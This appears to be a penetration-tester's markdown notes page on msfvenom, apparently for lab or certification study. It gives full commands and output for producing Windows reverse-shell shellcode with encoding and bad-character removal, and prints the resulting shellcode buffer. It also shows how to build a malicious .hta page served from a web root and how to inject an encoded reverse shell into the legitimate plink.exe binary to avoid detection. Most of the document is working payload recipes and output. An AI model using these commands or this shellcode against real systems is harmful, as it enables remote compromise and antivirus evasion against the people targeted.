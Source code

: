 ```yaml
---
Description: MSFvenom replaced both msfpayload and msfencode as of June 8th, 2015. In order to correctly manage shells obtained by msfvenom is foundamental to use msfconsole
---
```


>[!info]
>MSFvenom replaced both msfpayload and msfencode as of June 8th, 2015. 

In order to correctly manage shells obtained by msfvenom is foundamental to use [Metasploit Exploit Multi Handler](msfconsole.md#Metasploit%20Exploit%20Multi%20Handler)

```bash
┌──(kali㉿kali)-[~/Documents/lab/binExpl]
└─$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>\'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

### Generating custom shellcode without bad-chars

Warning: when generating custom exploit, default `EXITFUNC` is `ExitProcess`. In order to keep alive the application once the exploitation is over, change the `EXITFUNC` to `thread`

```bash
root@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d" EXITFUNC=thread -v buf
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of python file: 2062 bytes
buf =  b""
buf += b"\xbe\xb8\xea\x79\xf1\xda\xc3\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x63\x31\x70\x15\x03\x70\x15\x83\xe8\xfc\xe2"
buf += b"\x4d\x33\xbf\x4e\x5a\x5c\x8a\x0e\x7d\x29\x2f\x85\x25"
buf += b"\xe3\xe6\xd4\x88\x32\x81\x01\xb1\xf5\x75\x2d\x3a\x7e"
buf += b"\x5d\x7b\x95\x87\xb1\xbc\x26\x04\x20\xb3\x77\x02\x41"
buf += b"\x6c\x0b\xb5\x06\x86\xd0\xa7\xcf\xa9\x1f\x59\xd4\x8e"
buf += b"\x37\x48\x98\x44\xa4\x82\x1b\xc9\x88\xfd\x01\xb1\xf8"
buf += b"\x15\xbe\x6f\xb6\x37\x2e\x80\x2e\x24\x11\x85\x0f\x2e"
buf += b"\x8e\x1c\x08\x46\x88\x84\x0e\x8c\x33\x1e\x1b\xca\x4f"
buf += b"\x76\x70\x75\x4a\x2e\x7e\x34\x7b\x11\x94\x6f\xd5\xe4"
buf += b"\xdb\xfd\x7b\x5d\x31\x98\x30\x40\xe0\xd9\xa1\x0b\xbd"
buf += b"\xf1\xfd\x5d\x71\x88\x16\x2f\xeb\x64\x16\x45\xf7\x1c"
buf += b"\x8e\xbb\x68\x21\x5d\x1d\x59\x58\x5e\x7a\x6c\x7f\x8e"
buf += b"\xcb\xee\x47\x40\x06\xa0\x75\xbb\x1f\xfc\x4a\x33\xd6"
buf += b"\x4f\xa2\x69\x10\x87\x11\x18\xe4\x1e\x47\x10\x67\x26"
buf += b"\x38\x03\x4f\x9c\x60\x80\x04\x25\x6c\xcc\x05\xb9\x1a"
buf += b"\xc7\x99\x19\xe4\x69\x81\x57\x8c\x47\x06\x4b\x8d\x1c"
buf += b"\xeb\x11\xb9\x4f\x9b\x77\x1b\x17\x90\xbd\xe7\x03\x28"
buf += b"\xf2\xd8\x32\x04\x36\x5b\x6e\x29\x03\x14\x4f\x08\x7f"
buf += b"\x09\xf5\x4f\x83\x90\x24\xfb\x3d\xcb\x29\x96\xb9\x22"
buf += b"\x4a\x2d\x81\xb6\xeb\xbc\xf8\x6f\xa1\x88\xea\x3f\x69"
buf += b"\xcf\x71\x98\x64\xdc\xa8\x84\x58\xd8\xde\x7b\x64\xfe"
buf += b"\xfb\xd3\x27\x9c\xcc\x98\xa7\x78\x10\x12\xca\xa9\x8f"
buf += b"\x0b\x95\x24\xee\x44\xa3\xb5\xf9\x38\xd5\x6b\x64\x26"
buf += b"\xcf\xc7\xd0\xec\x67\x3e\x8f\x16\xe6\xd0\xa4\x14\x87"
buf += b"\x74\x69\xe2\xf1\xde\x4a\x86\x41\xd6\xf7\xa8\x42\x81"
buf += b"\xf8\x7c\x24\xfc\xbe\x6e\x5b\x85\x9c\x8b\x56\x67\x96"
buf += b"\xcf\x0e\x15\x32\xcd\x82\xa1\xcf\xe2\xf6\x9f\x4b\x41"
buf += b"\x2d\x23\x7c\x71\xb8\xe3\x24\xaa\x41\x8e\x31\xe3\x19"
buf += b"\xe1\x99\xbf\x11\xa7\x4a\x85\x57\x05\x27\xaa\xc5\x69"
buf += b"\xc8\x91\xc0\xdf\x4e\x10\x89\x62\xc0\x8b\x3e\xdb\x9b"
buf += b"\xe1\xf6\x87\x22\xec\x36\x08\x10\x05\xc7\x32\x32\x76"
buf += b"\xd0\x86\xfe\x7e\x51\xa1"
```

>[!warning]
>Warning: Because of the encoding, the shellcode is not directly executable and is therefore prepended by a decoder stub. The job of this stub is to iterate over the encoded shellcode bytes and decode them back to their original executable form. In order to perform this task, the decoder needs to gather its address in memory and from there, look a few bytes ahead to locate the encoded shellcode that it needs to decode.
>As part of the process of gathering the decoder stub’s location in memory, the code performs a sequence of assembly instructions, which are commonly referred to as a GetPC routine. This is essentially a short routine that moves the value of the EIP register (sometimes referred to as the Program Counter or PC) into another register.

As with other GetPC routines, those used by **shikata_ga_nai** have an unfortunate side-effect of writing some data at and around the top of the stack. This eventually mangles at least a couple of bytes close to the address pointed at by the ESP register. Unfortunately, this small change on the stack is a problem for us because the decoder starts exactly at the address pointed to by the ESP register. In short, the GetPC routine execution ends up changing a few bytes of the decoder itself (and potentially the encoded shellcode), which eventually fails the decoding process and crashes the target process.
The solution to this problem is to place a NOP Sled right before the payload, so even if the GetPC change some previous bytes, it is sure that the changed bytes are not vital to the correct execution of the program.

### Generating malicious .hta pages

```bash
kali@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6461 bytes
Saved as: /var/www/html/evil.hta
```

### Injecting malicious encrypted payload within an existing binary

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai succeeded with size 432 (iteration=3)
x86/shikata_ga_nai succeeded with size 459 (iteration=4)
x86/shikata_ga_nai succeeded with size 486 (iteration=5)
x86/shikata_ga_nai succeeded with size 513 (iteration=6)
x86/shikata_ga_nai succeeded with size 540 (iteration=7)
x86/shikata_ga_nai succeeded with size 567 (iteration=8)
x86/shikata_ga_nai chosen with final size 567
Payload size: 567 bytes
Final size of exe file: 311296 bytes
Saved as: shell_reverse_msf_encoded_embedded.exe
```